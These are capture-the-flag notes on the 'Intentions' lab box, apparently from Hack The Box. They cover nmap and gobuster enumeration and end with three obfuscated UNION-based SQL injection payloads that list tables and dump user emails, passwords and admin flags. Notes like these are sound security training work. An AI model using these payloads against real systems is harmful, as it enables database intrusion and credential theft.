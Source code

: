 Intentions
========================

## Enumeration

    sudo nmap_enum intentions.htb | tee nmap_output.txt

![qownnotes-media-ATEfFZ](../../../media/qownnotes-media-ATEfFZ.png)

    sudo nmap -p- -Pn -T5 -n intentions.htb | tee nmap_fullportstcp_output.txt

![qownnotes-media-kxuRfw](../../../media/qownnotes-media-kxuRfw.png)

    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn intentions.htb | tee nmap_udp_output.txt

![qownnotes-media-fwhIiC](../../../media/qownnotes-media-fwhIiC.png)

    sudo nmap -sS --script vuln -n -T5 -Pn intentions.htb -p 80,22 | tee nmap_vulns.txt

![qownnotes-media-rTDxrB](../../../media/qownnotes-media-rTDxrB.png)


### HTTP

    gobuster dir -u http://intentions.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt -k -t 16 -o "tcp_port_protocol_s_ext_gobuster.txt"

![qownnotes-media-ffQEdp](../../../media/qownnotes-media-ffQEdp.png)

![qownnotes-media-gYWtgO](../../../media/qownnotes-media-gYWtgO.png)

name: red team
email: redteam@teste.com
Password:  R3dT3am

![qownnotes-media-PIuNIJ](../../../media/qownnotes-media-PIuNIJ.png)

![qownnotes-media-HAfxyF](../../../media/qownnotes-media-HAfxyF.png)

```
"genres":"')/**/UNION/**/SELECT/**/1,table_name,3,4,5/**/from/**/information_schema.tables#"
"genres":"')/**/UNION/**/SELECT/**/1,column_name,3,4,5/**/from/**/information_schema.columns/**/where/**/table_name='users'#"
"genres":"')/**/UNION/**/SELECT/**/1,concat(email,0x3a,password,0x3a,admin),3,4,5/**/from/**/users#"